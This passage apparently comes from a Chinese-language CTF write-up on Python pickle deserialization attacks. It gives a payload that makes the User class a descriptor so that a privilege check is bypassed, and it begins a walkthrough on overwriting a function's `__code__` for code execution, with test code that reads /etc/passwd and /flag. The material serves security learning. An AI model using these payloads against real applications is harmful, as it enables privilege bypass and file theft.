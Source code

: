结合前面的描述符的知识点, 如果我们将 user.privileged 设置为一个描述符对象, 那么就可以改变 `user.privileged = False` 的结果. 

由于我们可以控制 User 类, 所以只要将其添加一个 `__set__` 方法, 就可以将 User 类转化为一个描述器.

payload 如下:
```py
User = GLOBAL('structs', 'User')
User.__set__ = User
user = User("aaa", "bbb")
User.privileged = user
return user
```
注意: 
1. 给 privileged 赋值的需要是一个描述器实例.
2. 题目会接收反序列化的返回值为一个对象,因此实例化的对象需要进行返回


### 利用代码对象篡改函数
python 中利用代码对象 RCE 这种利用手法通常出现在 pyjail 中，因为需要能够输入 python 代码并执行。其利用方式有两种：
1. 创建一个新的代码对象，然后执行
2. 或者覆盖现有函数的 `__code__` 属性，利用代码本身的执行流程执行。

在 python 反序列化的场景下，由于只能够创建、修改对象，无法控制对象的执行，因此第一种方式行不通，只能通过第二种方式。

下面是一个测试。

```py
def read():
    return print(open("/etc/passwd",'r').read())

def readTest():
    return print(open("/flag",'r').read())

function_type = type(lambda: None)
code_type = type((lambda: None).__code__)

code = read.__code__

argcount = code.co_argcount
posonlyargcount = code.co_posonlyargcount
kwonlyargcount = code.co_kwonlyargcount
nlocals = code.co_nlocals
stacksize = code.co_stacksize
flags = code.co_flags
codestring = code.co_code
constants = code.co_consts
names = code.co_names
varnames = code.co_varnames
filename = code.co_filename
name = code.co_name
qualname = code.co_qualname
firstlineno = code.co_firstlineno
linetable = code.co_linetable
exceptiontable = code.co_exceptiontable
freevars = code.co_freevars
cellvars = code.co_cellvars


mydict = {}
mydict['__builtins__'] = __builtins__

codeobj = code_type(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize, flags, codestring, constants, names, varnames, filename, name, qualname, firstlineno, linetable, exceptiontable, freevars, cellvars)
# code(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize, flags, codestring, constants, names, varnames, filename, name, qualname, firstlineno, linetable, exceptiontable, freevars=(), cellvars=(),/)
```